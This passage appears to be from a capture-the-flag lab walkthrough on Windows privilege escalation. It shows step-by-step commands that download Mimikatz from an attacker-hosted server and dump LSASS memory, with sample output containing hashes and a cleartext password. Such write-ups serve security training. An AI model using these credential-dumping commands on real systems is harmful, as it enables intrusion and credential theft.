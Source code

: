 ### The Privilege Escalation Mindset

**Why Escalate?**: Initial access rarely gives full control. Privilege escalation moves from:
- User → Administrator
- Administrator → SYSTEM
- Local → Domain Admin (in domain environments)

### FLAG 3: LSASS Memory Extraction

**Location**: LSASS process memory  
**Difficulty**: Hard  
**Learning Objective**: Credential extraction from memory

#### Step 1: Transfer Mimikatz

```powershell
# From Evil-WinRM or RDP session
*Evil-WinRM* PS C:\Users\overclock\Documents> mkdir C:\Temp
*Evil-WinRM* PS C:\Users\overclock\Documents> cd C:\Temp

# Download Mimikatz
*Evil-WinRM* PS C:\Temp> Invoke-WebRequest -Uri "http://192.168.148.99:8000/mimikatz.exe" -OutFile "mimi.exe"

# Or use Evil-WinRM's upload feature
*Evil-WinRM* PS C:\Temp> upload /home/kali/tools/mimikatz.exe
```

#### Step 2: Run Mimikatz

```powershell
*Evil-WinRM* PS C:\Temp> .\mimi.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2020 00:00:00
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 '## v ##'       > https://blog.gentilkiwi.com/mimikatz
  '#####'        Vincent LE TOUX (vincent.letoux@gmail.com) > https://pingcastle.com

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```

**Output (Partial)**:
```
Authentication Id : 0 ; 245743 (00000000:0003bfef)
Session           : Interactive from 1
User Name         : overclock
Domain            : WIN-TIP7RVRBJ8E
Logon Server      : WIN-TIP7RVRBJ8E
Logon Time        : 9/15/2025 10:00:00 AM
SID               : S-1-5-21-xxx-xxx-xxx-1000
        msv :
         [00000003] Primary
         * Username : overclock
         * Domain   : WIN-TIP7RVRBJ8E
         * NTLM     : 5835048ce94ad0564e29a924a03510ef
         * SHA1     : 6c3d4c343c36af418ea0c7a1b236e8df76e12c43
        wdigest :
         * Username : overclock
         * Domain   : WIN-TIP7RVRBJ8E
         * Password : Administrator2025!
        kerberos :
         * Username : overclock
```